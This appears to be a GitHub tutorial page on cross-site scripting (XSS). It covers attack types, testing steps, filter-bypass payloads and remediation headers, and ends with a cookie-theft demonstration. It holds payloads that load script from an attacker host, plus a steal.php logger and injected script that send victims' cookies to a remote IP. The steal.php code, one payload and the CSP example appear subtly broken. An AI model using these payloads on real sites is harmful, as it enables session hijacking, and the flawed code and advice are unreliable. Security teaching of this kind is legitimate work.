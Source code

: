 # XSS

## Information
Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into trusted website.

XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user.

OWASP TOP 10: A7-Cross-Site Scripting (XSS)

## Impact
Malicious script can access any cookies, session tokens, or other sensitive information

## Types of XSS
- **Stored XSS (Persistent XSS)**:
When an attacker injects malicious code into the vulnerable application and this content is permanently stored in a database. when victims visit a  vulnerable application page with the stored malicious code, that time their browser execute this code and victim get popup message.

- **Reflected XSS (Non-persistent)**:
When an attacker uses a malicious link, phishing email, or another social engineering technique to trap the victim into making a request to the server and this request contains malicious code. when victim click on link then browser receive a reply with the malicious code and executes it. 

- **DOM Based XSS**:
When the web application writes user input to the Document Object Model (DOM), then reads the data from the DOM and executes it in the browser.In DOM based XSS malicious code is not sent to the server which makes it difficult to detect by web application firewalls (WAFs).

## How to Test (Black Box Testing)
***1. Detect input vectors. For each web page***
- HTTP parameters
- POST data
- Hidden form field values
- Predefined Radio or Selection values

***2. Analyze each input vector to detect potential vulnerabilities***
- (greater than)>
- <(less than) 
- &(ampersand) 
- '(apostrophe or single quote) 
- "(double quote)
- e. g. <script>alert(123)</script>

***3. POC***
```
<script>alert(document.cookie)</script>
<script>alert(document.location)</script>
```

## HTML Filtered Content
- \n (new line) 
- \r (carriage return) 
- \' (apostrophe or single quote) 
- \" (double quote) 
- \\ (backslash) 
- \uXXXX (unicode values)

## Bypass XSS Filters 
Filters are based on a blacklist, they could not block every type of expressions

### e.g. payload’s:
***1. Different Syntax | Encoding***
```
" onfocus="alert(document.cookie)
"><script >alert(document.cookie)</script >
"><ScRiPt>alert(document.cookie)</ScRiPt>
"%3cscript%3ealert(document.cookie)%3c/script%3e
```
***2. Bypassing non-recursive filtering***
```
<scr<script>ipt>alert(document.cookie)</script>
```
***3. Including external script***
```
<script src="http://attacker/xss.js"></script>
http://example/?var=<SRIPT%20a=">"%20SRC="http://attacker/xss.js"></SCRIPT>
```

   - https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet (XSS Filter Evasion Cheat Sheet)
   - https://github.com/Pgaijin66/XSS-Payloads/blob/master/payload.txt
   - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20injection

## XSS - Remediation     
### Server-Side validation
1. [x] X-XSS-Protection
```
X-XSS-Protection: 0
X-XSS-Protection: 1
X-XSS-Protection: 1; mode=block
X-XSS-Protection: 1; report=<reporting-uri>
```
- ***0***	xss filter disabled
- ***1***	xss filter enabled and sanitized the page if attack detected
- ***1;mode=block***	xss filter enabled and prevented rendering the page if attack detected
- ***1;report=http://example.com/report_URI***	xss filter enabled and reported the violation if attack detected

2. Use HTTPOnly cookie flag: `Set-Cookie: key=123081792183asjgdhasd; HTTPOnly`

3. Implement Content Security Policy: `Content-Security-Policy: default-src: 'self'; script-src: 'self' static.domain.tld`
It's a browser side mechanism which allows you to create source allow lists for client side resources of your web application, e.g. JavaScript, CSS, images, etc. CSP via special HTTP header instructs the browser to only execute or render resources from those sources

***Refrence:*** https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection

### Client(Application)/Server side validation

1. HTML Encode Before Inserting Untrusted Data into HTML Element Content: `<body>...ENCODE UNTRUSTED DATA BEFORE PUTTING HERE.</body>`
2. Attribute Encode Before Inserting Untrusted Data into HTML Common Attributes: `<div attr="...ENCODE UNTRUSTED DATA BEFORE PUTTING HERE.">content`
3. JavaScript Encode Before Inserting Untrusted Data into JavaScript Data Values: `<script>alert('...ENCODE UNTRUSTED DATA BEFORE PUTTING HERE.')</script>'
4. URL Encode Before Inserting Untrusted Data into HTML URL Parameter Values:`<a href="http://www.website.com?test=ENCODE UNTRUSTED DATA BEFORE PUTTING HERE">link</a>
`(when you want to put untrusted data into HTTP GET parameter value)


* https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet (XSS Prevention Cheat Sheet)
* https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet (DOM based XSS Prevention Cheat Sheet)
* https://www.wordfence.com/learn/how-to-prevent-cross-site-scripting-attacks   (Functions to Validate your Data)

## XSS - Demonstration
Retrieve User Cookie Using XSS
1. Create ***steal.php*** file contect with below code.
```
<?php
$cookie=$_COOKIE['PHPSSID'];
$file=fopen('cookie.txt', 'a');
fwrite($file, $cookie . "\n\n");
?>
```
2. Create ***cookie.txt*** file on same directory.
3. Host ***steal.php*** page publicaly which can accessible through internet.
4. Insert Script on Vulnerable Parameter.
```
<script>document.location="http://hostname/steal.php"</script>
e.g:
<script>document.location="http://192.168.88.128/steal.php"</script>

<img src=a onerror=confirm(document.location="http://192.168.88.130/steal.php?cookie=" + document.cookie;)>

```
